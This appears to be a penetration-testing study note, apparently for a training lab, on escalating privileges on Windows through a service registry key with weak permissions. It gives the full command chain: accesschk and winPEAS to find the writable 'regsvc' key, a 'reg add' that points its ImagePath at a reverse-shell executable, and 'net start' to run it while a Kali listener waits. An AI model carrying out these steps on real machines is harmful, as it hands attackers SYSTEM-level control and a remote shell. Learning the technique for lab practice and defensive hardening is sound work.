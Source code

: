 # Weak Registry Permissions

The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.

```
accesschk.exe -accepteula -wuvc "Everyone" *
accesschk.exe -accepteula -wuvc "Users" *
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```

Run winPEAS to check for service misconfigurations:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (76).png>)

Note that the “regsvc” service has a weak registry entry. We can confirm this with PowerShell:

```
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```

![](<../../../../.gitbook/assets/image (87).png>)

Alternatively accesschk.exe can be used to confirm:

```
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

![](<../../../../.gitbook/assets/image (94).png>)

verify that we can start the service:

```
accesschk.exe /accepteula -ucqv user regsvc
```

![](<../../../../.gitbook/assets/image (104).png>)

now lets check the current value of the service registry entry:

```
reg query HKLM\System\CurrentControlSet\Services\regsvc
```

![](<../../../../.gitbook/assets/image (99).png>)

Overwrite the ImagePath registry key to point to our reverse shell executable:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

![](<../../../../.gitbook/assets/image (73).png>)

Start a listener on Kali, and then start the service to trigger the exploit:

```
 net start regsvc
```

![](<../../../../.gitbook/assets/image (95).png>)
